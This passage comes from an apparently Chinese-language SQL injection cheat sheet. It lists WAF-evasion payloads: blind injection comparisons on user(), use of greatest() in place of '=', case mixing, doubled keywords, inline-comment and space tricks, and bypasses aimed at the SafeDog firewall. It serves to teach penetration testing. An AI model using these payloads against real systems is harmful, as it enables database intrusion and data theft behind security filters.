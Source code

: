    ```sql
   select * from users where id=1 and ascii(substr(user(),1,1))> 100
   select * from users where id=1 and greatest(ascii(substr(user(),1,1)),1)=100  #等于100则返回0
   select * from users where id in (1);  #使用in代替=号
   ```

   > sqlmap则使用between脚本，利用greatest()返回最大值，least()返回最小值

   ```sql
   and ascii('a')<>97  #表示不等于（绕过=）
   ```

6. WAF过滤关键字

   - 大小写绕过

     ```sql
     SeleCt user from users
     ```

   - 双写绕过

     ```sql
     selselectect user from users
     ```

   - 内联注释绕过

     ```sql
     /*!00000select*/ user from users
     ```

   - 特殊符号绕过

     ```sql
     /*!%23/*%0afrom*/
     database/*%!a*/()
     ```

7. 利用字典fuzz

#### 安全狗绕过

1. 内联注释

   ```sql
   /*!00000select*/ user from users
   /*!%23/*%0aselect*/ user from users
   select/*!99999*/user from users
   ```

2. 空格绕过

   ```sql
   database() -> database ()
              -> database/*!99999*/()
              -> database/**/()
   ```

3. url编码绕过
